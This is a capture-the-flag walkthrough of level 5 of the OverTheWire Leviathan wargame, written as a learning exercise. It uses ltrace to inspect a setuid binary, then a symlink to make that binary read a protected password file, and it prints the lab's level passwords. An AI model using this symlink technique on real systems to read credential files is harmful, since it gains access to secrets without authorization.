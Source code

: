 # Leviathan 5


## Overview

-----------------
On the OverTheWire/Leviathan website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Leviathan0 -> Level 0
- Leviathan1 -> Level 1
- ...
- Leviathan33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `leviathan.labs.overthewire.org` server on `port 2223` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` text
➜  ~  ssh leviathan0@leviathan.labs.overthewire.org -p 2223          
                   _            _       _   _                        
                  | | _____   _(_) __ _| |_| |__   __ _ _ __         
                  | |/ _ \ \ / / |/ _` | __| '_ \ / _` | '_ \        
                  | |  __/\ V /| | (_| | |_| | | | (_| | | | |       
                  |_|\___| \_/ |_|\__,_|\__|_| |_|\__,_|_| |_|       
                                                                     
                                                                     
                      This is an OverTheWire game server.            
            More information on http://www.overthewire.org/wargames  
                                                                     
leviathan0@leviathan.labs.overthewire.org's password:     
```

The password will always be the flag of the previous level. With the exception of Level 0, where the password is `leviathan0`.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `EKKlTF1Xqs`:

``` text
➜  ~  ssh leviathan5@leviathan.labs.overthewire.org -p 2223
                   _            _       _   _                 
                  | | _____   _(_) __ _| |_| |__   __ _ _ __  
                  | |/ _ \ \ / / |/ _` | __| '_ \ / _` | '_ \ 
                  | |  __/\ V /| | (_| | |_| | | | (_| | | | |
                  |_|\___| \_/ |_|\__,_|\__|_| |_|\__,_|_| |_|
                                                              

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

leviathan5@leviathan.labs.overthewire.org's password: EKKlTF1Xqs

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

  Enjoy your stay!

leviathan5@gibson:~$ 
```

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).


``` text
leviathan5@gibson:~$ ls
leviathan5
```


``` text
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@gibson:~$ echo "something" > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
something
leviathan5@gibson:~$
```

Alright. So, looking at what happens when we pass a file, apparently we read the contents of the file and then print them 
out. This makes me believe we can use a `symbolic link` to the `/etc/leviathan_pass/leviathan6` file to print the contents
of that file. Let's first check who the owner of `./leviathan5` file is.

``` text
leviathan5@gibson:~$ ls -l ./leviathan5 
-r-sr-x--- 1 leviathan6 leviathan5 15132 Apr 23 18:04 ./leviathan5
```

Alright. As believed, `leviathan6` owns the file. This means, the file has access to other files who's owner is `leviathan6`.
Or rather, it has access to files where `leviathan6` has access to. Let's first check that the file doesn't just get deleted
at the end like in some other previous levels.

``` text
leviathan5@gibson:~$ touch /tmp/file.log
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x8049206, 1, 0xffffd5f4, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                             = 0x804d1a0
fgetc(0x804d1a0)                                                                        = '\377'
feof(0x804d1a0)                                                                         = 1
fclose(0x804d1a0)                                                                       = 0
getuid()                                                                                = 12005
setuid(12005)                                                                           = 0
unlink("/tmp/file.log")                                                                 = 0
+++ exited (status 0) +++
leviathan5@gibson:~$
```

Oh, actually, it does get deleted at the end via the `unlink()` system call. Good thing we caught that.

So `symbolic link` is the way to go.


``` text
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```

BOOM We got another flag. 


